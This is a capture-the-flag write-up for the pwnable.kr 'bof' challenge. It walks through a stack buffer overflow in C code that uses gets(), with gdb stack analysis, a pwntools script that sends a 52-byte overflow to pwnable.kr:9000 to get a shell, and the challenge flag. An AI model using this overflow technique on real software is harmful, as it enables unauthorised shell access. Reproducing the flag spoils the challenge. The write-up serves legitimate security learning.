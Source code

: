 # Pwnable.kr: Toddler's Bottle
## bof

This challenge requires us to perform a simple Buffer Overflow attack for overwriting function parameters stored inside of memory.

The C source code for challenge program is shown below, where the vulnerability is the *gets(overflowme)* call since *char * gets( char * )* has no array boundary checks and just reads *stdin* until the newline character.

*bof.c*
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Using this vulnerability, we can overflow the stack and overwrite the default *0xdeadbeef* parameter to be *0xcafebabe* in order to bypass the *key == 0xcafebabe* check and get a shell. The final piece to the puzzle is figuring out how big our input should be to overflow the key parameter. I used *gdb* to analyse the stack just before the *key == 0xcafebabe* comparison check, by creating a breakpoint at the CMP machine instruction.

<pre>
gdb-peda$ disas func
Dump of assembler code for function func:
   0x0000062c <+0>:	push   ebp
   0x0000062d <+1>:	mov    ebp,esp
   0x0000062f <+3>:	sub    esp,0x48
   0x00000632 <+6>:	mov    eax,gs:0x14
   0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:	xor    eax,eax
   0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:	call   0x645 <func+25>
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 <func+36>
   <b>0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe</b>
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave  
   0x00000689 <+93>:	ret    
End of assembler dump.
gdb-peda$ b * func+40
</pre>

Now we can just run the program inside *gdb* and give it an input of 'AAAAAAAA' until the breakpoint to help identify where the buffer is located on the stack. The character 'A' was randomly chosen, since it has an ascii value of 41 which can help us identify where the buffer is.

```
gdb-peda$ x/50wx $esp
0xffffd1c0:	0xffffd1dc	0xffffd2c4	0xf7fb2000	0xf7fb09e0
0xffffd1d0:	0x00000000	0xf7fb2000	0xf7ffc840	<b>0x41414141</b>
0xffffd1e0:	<b>0x41414141	0xf7fb2000	0x00000001	0x5655549d</b>
0xffffd1f0:	<b>0xf7fb23fc	0x00040000	0x56556ff4	0xfb2c4900</b>
0xffffd200:	<b>0x00400000	0x56556ff4	0xffffd228	0x5655569f</b>
0xffffd210:	0xdeadbeef	0x00000000	0x565556b9	0x00000000
0xffffd220:	0xf7fb2000	0xf7fb2000	0x00000000	0xf7df97e1
0xffffd230:	0x00000001	0xffffd2c4	0xffffd2cc	0xffffd254
0xffffd240:	0x00000001	0x00000000	0xf7fb2000	0x00000000
0xffffd250:	0xf7ffd000	0x00000000	0xf7fb2000	0xf7fb2000
0xffffd260:	0x00000000	0x0122c2f7	0x41a9e4e7	0x00000000
0xffffd270:	0x00000000	0x00000000	0x00000001	0x56555530
0xffffd280:	0x00000000	0xf7fe9450
```

The buffer starts at the top *0x41414141* entry in the stack, which is located at 4*13=52 bytes above the *0xdeadbeef* parameter. Therefore our input needs to have 52 bytes before we overflow the parameter. However, since our target system has little-endian ordering we will have to reverse our overflowing value.

We can now write our *pwn* script so that we overflow the buffer by 52 bytes then overwrite the passed parameter to the *func* call.

*bof_pwn.py*
```python
from pwn import *

payload = 52*'A' + '\xbe\xba\xfe\xca'
shell = remote('pwnable.kr',9000)
shell.send(payload)
shell.interactive()
```

Hooray! We have just got our flag!

```
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$
$ cat flag
daddy, I just pwned a buFFer :)
```
